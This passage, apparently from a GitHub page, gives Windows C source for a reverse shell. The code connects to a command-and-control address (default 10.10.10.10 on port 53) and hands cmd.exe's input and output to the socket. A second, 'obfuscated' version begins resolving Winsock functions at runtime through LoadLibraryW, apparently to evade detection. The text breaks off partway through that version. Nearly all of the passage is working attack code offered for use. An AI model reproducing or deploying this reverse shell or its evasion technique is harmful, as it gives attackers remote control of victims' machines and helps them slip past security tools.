 ```c

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

* Obfuscated program:

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS, LPQOS lpGQOS);
typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);

void RunShell(char* C2Server, int C2Port) {

        HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
```